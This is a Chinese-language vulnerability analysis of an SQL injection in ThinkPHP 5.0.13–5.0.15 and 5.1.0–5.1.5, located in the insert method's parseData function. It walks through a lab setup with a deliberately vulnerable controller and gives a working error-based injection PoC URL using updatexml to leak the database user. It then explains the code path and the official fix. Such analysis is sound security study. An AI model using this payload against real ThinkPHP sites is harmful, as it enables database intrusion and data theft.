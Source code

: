# 5.0.13 <= Thinkphp <= 5.0.15 & 5.1.0 <= Thinkphp <= 5.1.5

### 一、漏洞简介

本篇文章，将分析 ThinkPHP 中存在的 SQL注入 漏洞（ insert 方法注入）。本次漏洞存在于 Builder 类的 parseData 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生。

### 二、漏洞影响

5.0.13<=ThinkPHP<=5.0.15 、 5.1.0<=ThinkPHP<=5.1.5 。

### 三、复现过程

通过以下命令获取测试环境代码：


```
composer create-project --prefer-dist topthink/think=5.0.15 tpdemo
```

将 composer.json 文件的 require 字段设置成如下：


```json
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.15"
}
```

然后执行 composer update ，并将 application/index/controller/Index.php 文件代码设置如下：


```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->insert(['username' => $username]);
        return 'Update success';
    }
}
```

在 application/database.php 文件中配置数据库相关信息，并开启 application/config.php 中的 app_debug 和 app_trace 。创建数据库信息如下：


```php
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
```

**poc**


```
http://url/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

访问链接，即可触发 SQL注入漏洞 。（没开启 app_debug 是无法看到 SQL 报错信息的）

![](images/15893479784727.png)


漏洞分析

![](images/15893479838214.png)


首先在官方发布的 5.0.16 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 commit 记录，发现其修改的 Builder.php 文件代码比较可疑。

![](images/15893479957418.png)


接着我们直接跟着上面的攻击 payload 来看看漏洞原理。首先， payload 数据经过 ThinkPHP 内置方法的过滤后（不影响我们的 payload ），直接进入了 $this->builder 的 insert 方法，这里的 $this->builder 为 \think\db\builder\Mysql 类，代码如下：

![](images/15893480020905.png)


而 Mysql 类继承于 Builder 类，即上面的 $this->builder->insert() 最终调用的是 Builder 类的 insert 方法。在 insert 方法中，我们看到其调用 parseData 方法来分析并处理数据，而 parseData 方法直接将来自用户的数据 $val 进行了拼接返回。我们的恶意数据存储在 $val[1] 中，虽经过了 parseKey 方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![](images/15893480085220.png)


上面，我们看到直接将用户数据进行拼接。然后再回到 Builder 类的 insert 方法，直接通过替换字符串的方式，将 $data 填充到 SQL 语句中，进而执行，造成 SQL注入漏洞 。

![](images/15893480145092.png)


至此，我们已将整个漏洞分析完了。实际上，上面的 switch 结构中，3种情况返回的数据都有可能造成 SQL 注入漏洞，但是在观察 ThinkPHP 官方的修复代码中，发现其只对 inc 和 dec 进行了修复，而对于 exp 的情况并未处理，这是为什么呢？

实际上， exp 的情况早在传入 insert 方法前就被 ThinkPHP 内置过滤方法给处理了，如果数据中存在 exp ，则会被替换成 exp空格 ，这也是为什么 ThinkPHP 官方没有对 exp 的情况进行处理的原因了。具体内置过滤方法的代码如下：

![](images/15893480211408.png)


漏洞修复

![](images/15893480272890.png)


**攻击总结**

最后，再通过一张攻击流程图来回顾整个攻击过程。

![](images/15893480349553.png)


参考链接

https://github.com/Mochazz/ThinkPHP-Vuln